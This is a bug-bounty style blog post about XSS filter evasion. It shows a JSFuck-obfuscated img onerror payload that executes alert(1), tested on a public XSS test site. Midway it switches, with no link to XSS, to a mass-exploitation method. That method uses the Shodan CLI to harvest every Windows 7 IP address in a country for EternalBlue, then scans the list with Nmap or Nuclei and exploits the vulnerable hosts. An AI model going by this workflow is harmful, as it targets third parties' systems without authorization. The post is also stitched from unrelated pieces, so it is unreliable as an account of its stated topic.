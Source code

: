 ```yaml
---
layout: post
title:  Exploiting Cross-Site Scripting Vulnerabilities with Polymorphic Payloads
description: In this post, the use of polymorphism in JavaScript execution payloads in Cross-Site Scripting (XSS) attacks is presented.
date:   2024-05-23 11:01:35 +0300
image:  '/images/150.jpg'
tags:   [bug bounty, web]
---
```


Hello hackers,

Today, I want to introduce an intriguing topic I've recently started studying: polymorphic JavaScript execution payloads for Cross-Site Scripting (XSS) attacks. This advanced technique can help bypass Web Application Firewalls (WAFs) and various filters, making it an invaluable tool for our bug bounty hunts and penetration tests. By understanding and applying polymorphism in our payloads, we can enhance our ability to exploit vulnerabilities more effectively and evade defensive mechanisms. This knowledge is essential for anyone looking to stay ahead in the ever-evolving landscape of web security.

### JSFuck

JSFuck is an esoteric and educational programming style based on the atomic parts of JavaScript. It uniquely utilizes only six different characters to write and execute code: [ ] ( ) ! +. This minimalist approach not only highlights the flexibility and power of JavaScript but also serves as an intriguing challenge for developers.

One of the remarkable features of JSFuck is its independence from the browser environment. This means you can run JSFuck code in Node.js, broadening its applications beyond traditional web contexts. Whether you are exploring the depths of JavaScript's capabilities or looking for unconventional ways to obfuscate code, JSFuck offers a fascinating avenue for both learning and experimentation.

An example of using JSFuck is the following payload, where all characters after "onerror" correspond to the JavaScript code alert(1).

{% highlight js %}
    <img src=x onerror=[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(+(!+[]+!+[]+!+[]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[!+[]+!+[]])+(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]])()((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[!+[]+!+[]+!+[]]]+[+!+[]]+([+[]]+![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[!+[]+!+[]+[+[]]])>
{% endhighlight %}

To test the payload, a site by Brutelogic was used, which allows for testing Cross-Site Scripting (XSS) payloads.
In the user field, we inserted the payload.

![]({{site.baseurl}}/images/156.jpg)
*Payload Injection*

![]({{site.baseurl}}/images/155.jpg)
*Reflection in the code*

### Technique
This technique persists in a 5-step process, they are:
1. Choice of vulnerability;
2. Collection of information about aspects of hosts in which the vulnerability is present (Example: EternalBlue — Windows 7);
3. Collection of hosts;
4. Scan directed to the hosts to validate the “chosen” vulnerability;
5. Exploitation.

### Detailing
* Choice of vulnerability: Let’s use EternalBlue as an example;
* Collection of information about aspects of hosts in which the vulnerability is present: Eternalblue is the characteristics of the hosts in which we can link the vulnerability during our survey of hosts is:
Microsoft Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and Windows 10 Gold, 1511, and 1607; and Windows Server 2016;
* Collection of hosts: For this step, we are going to use the shodan API.

{% highlight js %}
    shodan download --limit -1 --fields ip_str test.json os:windows 7 country:<>
{% endhighlight %}

Here is the meaning of each part of the command:

* “shodan download”: Indicates the command to start downloading the search results;
* “ — limit -1”: Sets the result limit to -1, which means there is no limit on the number of results;
* “ — fields ip_str”: Specifies the fields that will be included in the download file. In this case, only the field “ip_str” (IP address) will be included;
* “test.json”: Is the name of the file where the results will be saved. In this case, the file will be called “test.json”;
* “os:windows 7”: This is a filter applied to the search to return only hosts that have the Windows 7 operating system;
* “country:<>”: This is another filter applied to the search to return only hosts located in country.

In short, this command asks Shodan to download information from all hosts running Windows 7 operating system located in country, saving only the IP addresses of these hosts in the “test.json” file. Using the “ — limit -1” parameter ensures that all results are downloaded, with no quantity restrictions.

{% highlight js %}
    shodan parse --fields ip_str test.json.gz
{% endhighlight %}

The command is used to analyze and extract specific information from a compressed file in JSON format, which contains data downloaded from Shodan.

* Scan directed to the hosts to validate the “chosen” vulnerability: For this step, we can use any tool or exploit directed to that vulnerability that we have selected to massively check all the ip’s in search of which ones are in fact vulnerable. Ex: Nmap, Nuclei, Custom Tool.
* Exploitation: In this step, we take all the hosts that are really vulnerable to that vulnerability and we exploit it manually with an exploit or something like that.

Note: This article has the sole purpose of studying and seeking knowledge. The information presented here is intended solely for educational and informational purposes.